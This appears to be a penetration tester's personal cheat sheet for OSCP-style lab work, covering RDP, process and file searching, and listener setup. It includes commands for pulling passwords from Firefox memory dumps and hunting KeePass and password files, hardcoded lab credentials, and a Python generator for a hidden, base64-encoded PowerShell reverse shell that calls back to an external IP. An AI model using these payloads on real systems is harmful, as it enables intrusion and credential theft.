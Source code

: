 ## Quick Notes

## Links

- [Payload All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/)
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/)
- [CyberChef](https://gchq.github.io/CyberChef/)
- [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/)
- [Markdown Reference](https://wordpress.com/support/markdown-quick-reference/)
- [Report Maker](https://github.com/noraj/OSCP-Exam-Report-Template-Markdown/tree/master)
### Random things 

### Remote Desktop Specific

```
xfreerdp /cert-ignore /compression /auto-reconnect /u:dmzadmin /p:SlimGodhoodMope /v:192.168.188.191 /w:1600 /h:800 

or 

rdesktop -z -P -x m -u dmzadmin -p SlimGodhoodMope 192.168.188.191 -r 

```

### Powershell Bypass Policy
```
Do this to run powershell:
powershell -ExecutionPolicy Bypass -File GetCLSID.ps1
```
### Kill a Process
```

To kill a port process on windows:

netstat -ano | findstr :<PORT>
taskkill /PID <PID> /F

To kill a port process on Kali:

sudo fuser -k 81/udp
```

### Port Listening

```
UNIX Domain Socket and How to listen it? 

 Use one of the option

1 - nc -lU <socket path>

nc: We all know this..

-l: This option tells netcat to operate in listening mode, which means it will listen for incoming connections.

-U: This option specifies that the listener should use Unix domain sockets. Unix domain sockets are a type of inter-process communication mechanism on Unix-like operating systems. They are used for communication between processes on the same host.

<socket path>: This is the path to the Unix domain socket that socat will listen on, for example "/tmp/s"

2 - socat - UNIX-LISTEN:<socket path>

socat: We all know this.

UNIX: Indicates that the endpoint will be a Unix domain socket.

LISTEN: Specifies that socat should listen for incoming connections on the socket.

<socket path>: As explianed before.


```
### Find Things
```
# Getting passwords from browser memory
procdump.exe -ma firefox_pid
strings.exe firefox.dmp | findstr /i "Passwd="


To find things:

locate something
find / -name exact_name>/dev/null
find /home -name *.jpg

-O1 – (Default) filter based on file name first
-O2 – File name first, then file-type
-O3 – Allow find to automatically re-order the search based on efficient use of resources and likelihood of success
-maxdepth X – Search this directory along with all sub-directories to a level of X
-iname – Search while ignoring text case.
-not – Only produce results that don’t match the test case
-type f – Look for files
-type d – Look for directories


To search for text within files:
grep mail /etc/passwd


On Windows:

Get-ChildItem -Path C:\ -Include *.kdbx* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *proof.txt* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *password* -File -Recurse -ErrorAction SilentlyContinue

FINDSTR /i /r /c:"hello.*goodbye" /c:"goodbye.*hello" Demo.txt

FIND [SWITCH] "String" [Pathname/s]

1. /v – This switch will show any lines that don’t contain the string of words you specified.
2. /c – This switch tells the find tool to count how many lines contain your search terms.
3. /n – This switch shows the numbers that correspond with the lines.
4. /i – This switch tells find to ignore the case of text you are searching for.
```


### Fix Kali Copy Paste Issue
```
Kali VM Fix Copy/Paste:

1. `sudo apt-get autoremove open-vm-tools`
2. Install VMware Tools by following the usual method (`Virtual Machine --> Reinstall VMWare Tools`)
3. Reboot the VM
4. `sudo apt-get install open-vm-tools-desktop`
5. Reboot the VM, after the reboot copy/paste and drag/drop will work!



Quick Python Powershell Reverse Shell generator
---

import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.164",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```


### Show Tun0 IP Toolbar

```
sudo apt install xfce4-genmon-plugin

Generic Monitor -> Properties

/opt/showtun0ip.sh

---
ADDR=$(ip addr | grep tun0|grep inet|awk '{print $2}'|cut -d "/" -f 1)
echo "$ADDR" | sed 's/$/ /g'


```


## ProxyChains

```

Nomrally used with chisel, so standard:

socks5 127.0.0.1 1080

Also, squid proxy for example with username + password after ip and port:

http 192.168.219.224 3128 ext_acc DoNotShare!SkyLarkLegacyInternal2008
```


## Reading Files

```
Linux just use cat, mousepad, nano, vim

Also, if you need to add a line to a file, but don't have nano editor you can:

echo "Something to append" >> filename

Windows use more or less... or type <filename> | more


```